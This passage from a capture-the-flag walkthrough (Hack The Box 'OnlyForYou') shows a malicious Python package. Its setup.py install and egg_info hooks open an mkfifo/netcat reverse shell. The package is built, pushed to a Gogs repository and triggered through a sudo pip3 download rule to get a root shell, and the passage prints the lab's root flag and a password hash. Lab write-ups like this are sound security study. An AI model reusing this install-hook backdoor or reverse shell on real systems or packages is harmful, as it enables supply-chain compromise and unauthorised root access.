    os.system("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 4242 >/tmp/f")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "this_is_fine_wuzzi",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```

Next, we need to build it using `python3 -m build`:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ python3 -m build
* Creating venv isolated environment...
* Installing packages in isolated environment... (setuptools >= 40.8.0, wheel)
* Getting build dependencies for sdist...
running egg_info
...
adding 'this_is_fine_wuzzi-0.0.1.dist-info/LICENSE'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/METADATA'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/WHEEL'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/top_level.txt'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/RECORD'
removing build/bdist.linux-x86_64/wheel
Successfully built this_is_fine_wuzzi-0.0.1.tar.gz and this_is_fine_wuzzi-0.0.1-py3-none-any.whl
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ ls dist
this_is_fine_wuzzi-0.0.1-py3-none-any.whl  this_is_fine_wuzzi-0.0.1.tar.gz
```

We can see our files.

The next step is to create a new repository on `Gogs` using `john` credentials:



Since `john` can execute `(root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz` as `root`, we need to upload the `.tar.gz` file to our repository:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ proxychains git clone http://127.0.0.1:3000/john/evyatar9-repo
ProxyChains-3.1 (http://proxychains.sf.net)
Cloning into 'evyatar9-repo'...
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:3000-<><>-OK
warning: You appear to have cloned an empty repository.
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ cd evyatar9-repo/
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou/evyatar9-repo]
└──╼ $ cp ../this_is_fine_wuzzi/dist/this_is_fine_wuzzi-0.0.1.tar.gz .
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou/evyatar9-repo]
└──╼ $ git add --all && git commit -m 'reverse' && proxychains git push
proxychains git push
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:3000-<><>-OK
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (4/4), 3.02 KiB | 134.00 KiB/s, done.
Total 4 (delta 0), reused 0 (delta 0), pack-reused 0
Username for 'http://127.0.0.1:3000': john
Password for 'http://john@127.0.0.1:3000': 
To http://127.0.0.1:3000/john/evyatar9-repo
 * [new branch]      master -> master
```

Now, we can execute the `pip download` command as `root`:
```console
john@only4you:~$ sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/evyatar9-repo/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/evyatar9-repo/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/evyatar9-repo/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
     - 2.8 kB 9.1 MB/s
```

And we successfully obtain a reverse shell:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from only4you.htb [10.10.11.210] 35026
# cat /root/root.txt
163c99f91d14296e0bf57d12bb0a910b
```

And we retrieve the root flag `163c99f91d14296e0bf57d12bb0a910b`.

PDF password
```console
$6$TJLQffVnCXmnRBpq$Shtj6r4nJt672cmV2bhnlK9wb6YlI1tKpJoupUoVM/LFd7vmbLuDX4jtlYW3Lcft2sjWmHk5h58Q8vaFDOtFR.
```